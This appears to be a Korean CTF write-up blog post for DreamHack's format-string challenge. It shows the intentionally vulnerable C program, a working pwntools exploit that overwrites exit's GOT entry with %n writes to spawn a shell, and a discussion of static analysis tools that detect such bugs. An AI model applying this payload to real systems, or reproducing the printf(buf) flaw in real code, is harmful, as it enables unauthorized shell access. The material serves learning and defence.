 ```yaml
---
title: "(DreamHack) Basic_exploitation_002"
date: 2021-03-05 05:24:00 -0400
categories: Security
---
```


## 풀이
Basic_exploitation_002는 FSB (Format String Bug)에 관한 문제이다.

FSB는 printf, sprintf 등 서식 문자를 사용하는 함수에서 매개변수를 검증하지 않아 발생하는 보안약점이며, 이를 통해 메모리 내용을 볼 수도 있다.

``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    read(0, buf, 0x80);
    printf(buf);

    exit(0);
}
```

위 코드에서는 printf함수에 buf만이 들어왔기 때문에 취약하다고 볼 수 있다.\
먼저 buf 변수를 통해 메모리 내용을 확인하고, exit() 함수에 get_shell()함수 주소를 덮어 씌움으로써 쉘을 실행시키도록 한다.

![image](https://user-images.githubusercontent.com/24788751/110103059-d4bd6a00-7de8-11eb-8f9b-229b895ef366.png)
FSB를 익스플로잇하여 첫번째 서식 문자부터 'AAAA'를 참조하는 것을 알 수 있다.

![image](https://user-images.githubusercontent.com/24788751/110103358-34b41080-7de9-11eb-9bfe-cd3937fb5988.png)
디스어셈블러를 통해 get_shell()의 주소가 0x8048609임을 알아냈다.

``` python
from pwn import *

p = remote("host1.dreamhack.games", 12773)
elf = ELF("./basic_exploitation_002")

exit = elf.got['exit']
get_shell = 0x8048609

payload = p32(exit)
payload += p32(exit + 2)
payload += "%34305d"
payload += "%1$n"
payload += "%33275d"
payload += "%2$n"

p.send(payload)
p.interactive()
```

## FSB 탐지
디스어셈블러와 디버거가 아닌 자동화된 보안약점 분석 도구에서는 어떻게 FSB를 탐지하는지 알아본다. 먼저 FSB는 printf, sprintf 등의 취약한 함수를 사용할 경우 발생할 가능성이 높아지므로 printf_s, sprintf_s 등의 함수를 사용하여야 한다.

### 취약한 함수 이름 검색
**Flawfinder**, **Cppcheck**과 같은 보안약점 분석기는 위에서 말한 printf와 같은 취약한 함수들을 단순히 검색하여 해당 프로그램이 취약한 지 분석한다.

### 오염 분석, 데이터 흐름 분석 (Taint analysis, data flow analysis)
**Clang Static Analyzer**는 오염 분석, 데이터 흐름 분석 등의 분석 기법을 이용하여 메모리 값이 변하는지 직접 확인함으로써 보안약점을 탐지한다.
![image](https://user-images.githubusercontent.com/24788751/110103433-4c8b9480-7de9-11eb-8034-817d34e59780.png)

### 두 방식의 장단점
단순히 취약한 함수 이름을 검색한다고 해서 취약하다고 탐지된 프로그램이 실제로 취약한 프로그램인지 확실하지 않을 수 있다. (false positive)\
반면 단순 스트링 매칭 방식이기 때문에 빠른 시간 내에 프로그램을 분석할 수 있는 장점이 있다.

오염 분석, 데이터 흐름 분석은 프로그램을 실제로 실행하면서 취약점의 존재 유무를 판단하기 때문에 더 정확하다. 그러나 프로그램을 실행하면서 분석하기 때문에 분석 시간이 오래 걸린다는 단점이 있다.